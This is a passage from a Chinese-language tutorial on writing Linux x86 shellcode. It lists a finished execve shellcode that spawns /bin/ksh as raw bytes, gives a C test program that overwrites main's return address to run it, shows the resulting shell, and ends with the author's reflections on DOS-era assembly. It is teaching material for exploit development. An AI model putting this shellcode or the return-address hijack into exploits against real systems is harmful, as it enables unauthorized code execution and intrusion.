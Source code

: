 整理shellcode如下：

eb 1f 5e 89 76 09 31 c0 88 46 08 89 46 0d b0 0b
89 f3 8d 4e 09 8d 56 0d cd 80 31 db 89 d8 40 cd
80 e8 dc ff ff ff 2f 62 69 6e 2f 6b 73 68 00 c9 c3

20. 验证最后调整得到的shellcode

vi shelltest.c

char shellcode[] =
    "\xeb\x1f\x5e\x89\x76\x09\x31\xc0\x88\x46\x08\x89\x46\x0d\xb0\x0b"
    "\x89\xf3\x8d\x4e\x09\x8d\x56\x0d\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
    "\x80\xe8\xdc\xff\xff\xff\x2f\x62\x69\x6e\x2f\x6b\x73\x68\x00\xc9\xc3";

int main ()
{
    int * ret;  /* 当前esp指向的地址保存ret的值 */

    ret      = ( int * )&ret + 2;  /* 得到 esp + 2 * 4，那是返回地址IP */
    ( *ret ) = ( int )shellcode;  /* 修改了 main() 函数的返回地址，那是很重要的一步 */
}

[scz@ /home/scz/src]> gcc -o shelltest shelltest.c
[scz@ /home/scz/src]> ./shelltest
$ exit
[scz@ /home/scz/src]>

现在你已经明白了怎么写shellcode了，并不象想象中那么难，是吧？:-)
这里介绍的仅仅是一个写shellcode的思路以及需要注意的一些问题。
你可以根据自己的需要，编写出自己的shellcode来。

★ 我对shellcode以及这篇文章的看法

1. 你是从DOS年代过来的吗？

如果答案肯定，我就不多说了，因为上面通篇实际上并没有超出当年我们
在DOS游戏汇编的范畴，毕竟Linux跑在Intel x86架构上。当发生far call的
时候，cs:ip对被压栈，先是ip后是cs，现在想起来为什么上面的介绍那么地
似曾相识了吧。int发生的时候不过多压了个flag而已。那么far jmp就更不
用多说。回忆，再回忆，回忆那些当年我们为之付出心血的DOS下的汇编语言。
ret、iret、int 3、int 21、int 1，TSR，你还能想起什么尘封了的往事。

通过修改堆栈中的返回地址将程序流程引导到别处，曾经是dos下的家常便饭，
为了防止中断向量被修改，宁可远程call远程跳转也不愿意使用int指令，编写
自己的debug程序，利用int 1的单步，难道你没有修改过堆栈中的返回地址？
为了嵌入那些当前编译器不支持的机器码，用db直接插入机器码。为了提高某些
关键代码的执行效率，使用嵌入式汇编，难道你从来没有看过.s文件？

不再回忆，DOS已是昨天。

2. 关于文章中的一些技术说明

原文是用/bin/sh的，我为了从头实际演练一番，用了/bin/ksh，你要是
乐意可以使用任意的shell。其次，可能是原文有误，要么是翻译中书写错误，
反正是有那么几处错误，我都一一调整过来了。原文是用gdb那样获得完整的
shellcode的，而我昨天刚刚介绍了objdump的使用，所以也可以利用objdump
获得shellcode，上文中已经多次给出了完整的命令。
